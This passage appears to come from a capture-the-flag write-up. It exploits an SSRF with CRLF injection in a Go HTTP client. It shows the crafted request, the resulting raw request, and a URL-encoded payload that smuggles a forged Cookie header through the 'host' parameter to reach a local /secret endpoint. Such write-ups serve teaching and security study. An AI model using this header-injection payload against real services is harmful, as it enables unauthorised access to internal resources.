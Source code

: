 So let us set our payload to the following string:

```http request
/secret? HTTP/1.1
Host: 127.0.0.1
Cookie: GOSESSION=guest-go1.11.5

```

Which will produce the output below:

```http request
GET /secret? HTTP/1.1
Host: 127.0.0.1
Cookie: GOSESSION=guest-go1.11.5

:80/ HTTP/1.1
Host: 127.0.0.1
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip

```

Note how we added a `Cookie` header and finished with a double CRLF. This makes
the HTTP protocol consider all following data (starting with `:80/ HTTP/1.1`) as
the request body, which, without a `Content-Length` header, will be ignored.

And there we have it! We will now encode this payload into a URI:
```
127.0.0.1/secret? HTTP/1.1%0D%0AHost: 127.0.0.1%0D%0ACookie: GOSESSION=guest-go1.11.5%0D%0AContent-Length: 0%0D%0A%0D%0A
```

And pass this string under the `host` `GET` parameter:

<img alt="ssrf" src="img/ssrf/4.png">
